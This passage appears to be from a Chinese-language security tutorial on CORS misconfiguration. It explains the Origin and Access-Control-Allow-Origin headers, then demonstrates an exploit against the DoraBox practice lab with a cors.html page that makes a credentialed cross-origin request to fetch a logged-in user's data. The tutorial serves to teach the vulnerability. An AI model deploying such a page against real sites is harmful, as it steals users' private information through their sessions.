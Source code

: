 
  

`response`

    
    
    11  HTTP/1.1 200 OK  
    12  Date: Mon, 01 Dec 2020 00:23:53 GMT  
    13  Server: Apache/2.0.61   
    14  Access-Control-Allow-Origin: *  
    15  Keep-Alive: timeout=2, max=100  
    16  Connection: Keep-Alive  
    17  Transfer-Encoding: chunked  
    18  Content-Type: application/xml  
    

  

第 1~9 行是请求首部。在第10行的请求头 Origin 表明该请求来源于 http://example.com。  
第 11~18 行是来自于 http://bar.com 的服务端响应。响应中携带了响应首部字段 Access-Control-Allow-Origin（第
14 行）。使用 Origin 和 Access-Control-Allow-Origin 就能完成最简单的访问控制。本例中，服务端返回的 Access-
Control-Allow-Origin: * 表明，该资源可以被任意外域访问。如果服务端仅允许来自 http://example.com
的访问，该首部字段的内容如下：  
`Access-Control-Allow-Origin: http://example.com`  
如果跨域请求可以包含cookie的话，在服务器响应里应该有这一字段：  
`Access-Control-Allow-Credentials: true`  
这样的话攻击者就可以利用这个漏洞来窃取已经在这个网站上登录了的用户的信息（利用cookie）

# 3|0漏洞利用

  

这里以droabox靶场为例  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811182650.png)  
这个接口会返回已登录的用户的信息数据，通过访问该网页的响应我们看到这里可能存在CORS跨域资源共享漏洞  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811182651.png)  
接下来我们就可以建立一个恶意的js代码

    
    
    <!-- cors.html -->  
    <!DOCTYPE html>  
    <html>  
    <head>  
     <title>cors exp</title>  
    </head>  
    <body>  
    <script type="text/javascript">  
    function cors() {    
    var xhttp = new XMLHttpRequest();    
    xhttp.onreadystatechange = function() {      
        if (this.status == 200) {      
        alert(this.responseText);       
        document.getElementById("demo").innerHTML = this.responseText;      
        }    
    };    
    xhttp.open("GET", "http://192.168.0.101/DoraBox/csrf/userinfo.php");    
    xhttp.withCredentials = true;    
    xhttp.send();  
    }  
    cors();  
    </script>  
    </body>  
    </html>  
    